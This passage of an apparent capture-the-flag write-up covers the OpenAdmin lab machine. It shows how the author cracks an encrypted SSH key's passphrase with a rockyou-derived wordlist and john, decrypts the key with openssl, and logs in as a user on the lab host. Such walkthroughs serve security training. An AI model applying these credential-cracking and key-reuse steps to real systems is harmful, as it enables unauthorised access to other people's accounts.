 
On successful login, it redirects to `main.php`, where there’s an ssh key:

![image-20200118152816918](https://0xdfimages.gitlab.io/img/image-20200118152816918.png)

#### Decrypt Key

To decrypt the key, the first thing I tried was jimmy’s password,
`n1nj4W4rri0R!`, but that fails:

    
    
    root@kali# openssl rsa -in joanna-enc -out id_rsa_openadmin_joanna
    Enter pass phrase for joanna-enc:
    unable to load Private Key
    139806906295488:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:../crypto/evp/evp_enc.c:570:
    139806906295488:error:0906A065:PEM routines:PEM_do_header:bad decrypt:../crypto/pem/pem_lib.c:461:
    

Then I figured I’d try “ninja” words from rockyou. First create the wordlist:

    
    
    root@kali# grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja
    

Then it breaks in `john` instantly:

    
    
    root@kali# /opt/john/run/john --wordlist=rockyou_ninja joanna-enc.john
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    bloodninjas      (joanna-enc)
    1g 0:00:00:00 DONE (2020-01-18 15:37) 50.00g/s 88250p/s 88250c/s 88250C/s 007ninjajairo..#1FLUFFYCOCKYNINJA
    Session completed
    

And I can write a unencrpyted copy of the key:

    
    
    root@kali# openssl rsa -in joanna-enc -out id_rsa_openadmin_joanna
    Enter pass phrase for joanna-enc:
    writing RSA key
    

#### SSH

I can connect with that key as joanna:

    
    
    root@kali# ssh -i ~/id_rsa_openadmin_joanna joanna@10.10.10.171
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
    